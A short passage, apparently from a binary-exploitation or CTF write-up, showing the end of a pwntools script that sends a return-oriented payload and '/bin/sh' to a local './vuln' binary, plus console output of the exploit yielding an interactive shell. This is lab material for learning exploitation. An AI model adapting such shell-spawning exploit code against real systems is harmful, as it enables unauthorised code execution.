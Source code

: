 ```python 
payload += p32(bss)
payload += p32(exit)

p.send(payload)
sleep(0.5)

p.send("/bin/sh\x00")
p.interactive()
```

```
$ python poc.py 
[+] Starting local process './vuln': pid 18773
[*] Switching to interactive mode
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA \xa6x84\x0
$ ls
code    poc.py  vuln.c
code.c    vuln
$  
```